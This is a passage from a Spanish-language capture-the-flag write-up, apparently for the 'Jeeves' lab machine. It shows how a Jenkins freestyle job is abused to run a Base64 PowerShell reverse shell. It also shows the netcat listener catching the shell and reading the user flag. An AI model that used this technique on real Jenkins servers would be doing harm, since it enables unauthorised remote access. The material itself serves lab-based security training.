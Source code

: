 
Vemos que podemos añadir una **Nueva tarea**:

![Nueva tarea](./2.png)

Crearemos una nueva tarea con el nombre que queramos, y seleccionamos **Crear un proyecto de estilo libre**. Esto nos dejará ejecutar un comando de Windows, vamos a generar una [reverse shell](https://www.revshells.com/) de tipo `PowerShell #3 (Base64)`:

![Inyectamos una reverse shell](./3.png)

Una vez hecho esto, ejecutaremos la tarea y recibiremos la shell:

```bash wrap=false
❯ sudo rlwrap nc -lvnp 4444     
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.63] 49680
whoami
jeeves\kohsuke
PS C:\Users\kohsuke\desktop> type user.txt
e3232272596fb4795...
```
